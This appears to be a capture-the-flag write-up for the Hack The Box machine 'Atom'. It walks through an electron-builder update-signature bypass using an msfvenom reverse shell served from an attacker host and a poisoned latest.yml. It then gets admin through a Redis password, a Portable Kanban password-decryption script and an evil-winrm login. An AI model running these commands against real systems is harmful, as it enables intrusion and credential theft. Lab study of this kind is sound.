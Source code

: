 # Atom 
IP: 10.10.10.237
System: windows

referense to atom editor ? 
Lets start by focus on things that have something to do with programming / software. 

add the ip to hosts 
````bash
echo "10.10.10.237 atom.htb" >> /etc/hosts
````

## Nmap scan
|port|service|
|---|---|
|80|http|
|135|msrpc|
|443|https|
|445|SMB|
|5985|http|
|6379|redis|
|7680|pando-pub?|

On the http/https is the same page, which allows you to download a program for windows. 

lets try SMB port 

````bash
smbclient atom.htb
````

This will display interresting shares, lets start with software_updates there might be something there

````bash
smbclient atom.htb\Software_updates
````

````bash
smbclient -N "\\\\atom.htb\Software_Updates"
````

get download the pdf, no need to look at the other folder as they are empty.

Look to be a user acception test document. 


````bash
get UAT_Testing_procesudres.pdf
````

What we learn from the document is that the application is built on "electron-builder"

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

From the blog posts we learn that the signature verfication process in electron-builder is string comparison between the install binary publisherName and cerf common name. 

let try out exploit first with msfvenom.  

````bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.200 LPORT=8765 -f exe -o "trustme.exe"
````

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set Lhost 10.10.14.200
set rport 8765
````

Create you yml file 

````yml
version: 1.2.3
path: http://10.10.14.200/trustme.exe
sha512: <hash>

````

````python
python3 -m http.server
````

login back into the smb and put in the latest.yml file inside one of the clients.

````smb
cd client1
put latest.yml
````

lets wait and see if anything happens. 

and we got shell. 

````cmd
more c:\users\jason\desktop\user.txt
````

## admin
I always wanted to try somthing like WINPEAs and see if it works. 

upload the file using meterpreter

````ps
winPEASx64.exe servicesinfo
````

from the winPEAS we learn about a service called redis

what is redis??

going to the redis folder we see a conf file

````cmd
cd c:\program files\Redis
type redis.windows.service.conf
#output
requirepass kidvscat_yes_kidvscat

````

install redis-cli is you do not have it. 

````bash
apt intall redis-tools
redis-cli -h atom.htb -a <password>
keys * 
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
````

{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

And we got the hash -> Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Now the question is how do we get the password?

while using the winpeasx64 I saw the jason having Portable kanban inside his downloable folder, lets see if they use the same password for that as his admin account. 
Portable-kanban stores password as encryption format des and the same key is used for every product. 

google *Portable kanban encrypted password* and you get a python script for how to decrypt the hash. but it uses the pk3 file as argument but as we allready have the hash lets just that instead, and just alway everything we do not need. 

 ````python3
 import base64
from des import * #python3 -m pip install des

try:
    hash = base64.b64decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
 ````

And we got the admin password.
Decrypted Password : kidvscat_admin_@123

lets use the windows remote management to get access as admin on the machine, it a SOAP based protocol that allows hardware and operation systems from diffrent vendors to interoperate. 

Has a nice tool to get access to it.
https://github.com/Hackplayers/evil-winrm


````bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'
````

And we got root access.


hash -> 7df7256dc47d2125d825058b2f89ff38
writeups:
